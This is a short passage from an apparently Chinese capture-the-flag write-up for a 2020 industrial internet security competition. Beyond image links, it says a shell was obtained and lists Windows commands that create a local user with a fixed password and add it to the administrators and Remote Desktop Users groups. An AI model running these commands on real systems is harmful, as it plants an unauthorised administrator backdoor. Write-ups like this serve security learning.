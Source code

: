 ![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/9.png)

成功拿 shell, 加用户

![](../../../../assets/img/Security/CTF/writeup/2020-11-I²S峰会暨工业互联网安全大赛/11.png)

```
net user a Abcd1234 /add
net localgroup administrators a /add
net localgroup "Remote Desktop Users" a /add
```
